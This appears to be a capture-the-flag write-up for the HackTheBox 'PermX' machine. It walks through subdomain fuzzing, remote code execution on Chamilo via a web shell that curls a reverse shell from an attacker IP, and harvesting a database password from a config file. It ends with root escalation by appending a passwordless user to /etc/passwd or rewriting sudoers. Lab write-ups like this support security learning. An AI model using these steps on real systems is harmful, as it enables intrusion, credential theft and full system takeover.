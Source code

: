 # PermX

- namp resuls shows that there's only two open ports 22 ssh , 80 apache (v 2.4.52)
- fuzzing for directories didn't return anything usefull , either the js files
- the permx.htb -> is a static website and there is no interesting files under it so let's fuzz for subdomain
- fuzzing for subdomains reveals that `www , lms` are a valid subdomains
  - i used this command `ffuf -w  ~/Desktop/secLists/Discovery/DNS/subdomains-top1million-110000.txt   -H "Host: FUZZ.permx.htb" -u <http://permx.htb> -mc 200`
- the `www` subdoamin is the same as the static website
- `lms.permx.htb` seems it will be out entry point
  - chamilo  , Administrator : Davis Miller
- chamilo is already vulnerable to RCE
`end point that allows me to rce`
`GET /main/inc/lib/javascript/bigupload/files/rev_dedoxd2.php?cmd=curl+<http://10.10.16.55:8000/rev_dedoxd2.php>`

- i have uploaded a reverse shell for better interaction with the machine
- the reverse shell we got is suck
  - we could use this command to get better one `python3 -c 'import pty;pty.spawn("/bin/bash")'`

- after getting the reverse shell , we might use this command top  find the configuration file for the webapp (it holds good infos)
  - find . -type f -name "configuration.php" # or we could search for "configuration.*"
    > find . -type f -name "configuration.php"
    > ./chamilo/app/config/configuration.php
    > ./chamilo/plugin/sepe/src/configuration.php

---------
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php

cat configuration.php -> interesting results

$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

---------
Take aways from this machine :

- `sudo -l` this command shows the commands can run as a sudo

## Take Aways

- don't forget to enumerate the subdomains as well for the directories
- after taking a shell on a web server don't forget to look at the configuration files
- in the privilage escalation part there was actually two ways to to do it
  - The first way is :
    - create a sym link the /etc/passwd in the user home directory
      > ln -s /etc/passwd /home/mtz/test
    - give ur self a read write permision to it
      > sudo /opt/acl.sh mtz rw /home/mtz/test
    - give permissions to root3 by using echo on the symlink file
      > echo "root3::0:0:root3:/root:/bin/bash" >> ./test
    - change user to root3
      > su root3
    - bam!! , root shell
  - The Second way :
    - create a sym link to the sudoers file
      > ln -s /etc/sudoers /home/mtz/sudoers
    - give yourself a read/write permsion to it
      > sudo /opt/acl/sh mtz rw /home/mtz/sudoers
    - see the sudoers and notice that `mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl/sh`
    - relrace the specified sscript by `ALL` phrase , u could use the sed command or any file editor using the CLI Like nano or vim
      > sed -i 's/\/opt\/acl.sh/ALL/' sudoers #mtz ALL=(ALL:ALL) NOPASSWD: ALL # make it like this
